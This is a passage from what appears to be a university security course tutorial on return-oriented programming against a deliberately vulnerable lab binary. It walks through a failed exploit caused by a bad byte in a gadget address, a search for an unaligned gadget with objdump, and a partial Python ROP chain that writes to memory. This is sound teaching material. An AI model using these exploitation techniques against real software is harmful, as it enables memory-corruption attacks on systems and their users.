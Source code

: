 ``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`??
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1551626.753436] vulnerable[10562]: segfault at bf00e080 ip bf00e080 sp bffff618 error 14
```

Hmm. It did not work, why? Well look closely a the `ip` we segfaulted on
0xbf00e080. There is a null byte in there, and also that looks a lot
like the address for our `pop eax; pop ebx; pop esi; pop edi; ret;` at
0x0809e080. The 0x098 did not wite onto the stack, and the reason for
that is 0x09 is '\\t' (tab) and that terminated the `strcpy()`.

It turns out that not all of our gadgets that we find can be used
because the address may contain values we can't include in the overflow.
Looks like we need to hunt for more gadgets!

## Gadgets within Other Operations

One thing we can leverage here is that x86 is not a fixed size
instruction set. Instead, any sequence of bytes could be a valid
instruction. Before, the address of `pop eax` gadget was at an address
that was not useful, but we can look for another one that might be
embeded elsehwere.

To start, it is worthwhile to know that byte 0xc3 is the return
operation and address 0x58 is the `pop eax` instruction. In that case,
we can do a search for that address and find:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  |  grep -B 2 "c3" | grep -A 2 58
(...)
80bb744:    8b 40 58                mov    eax,DWORD PTR [eax+0x58]
80bb747:    c3                      ret    
(...)
```

And there, within that mov instruction, we see that there is a 0x58
followed by a 0xc3. That means we can use address 0x080bb746 in our ROP
chain. Now we can use the following rop chain:

``` example
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0809a70d) # mov [edx],eax;ret
p += pack('<I', 0xcafebabe) #  will segfault here
```
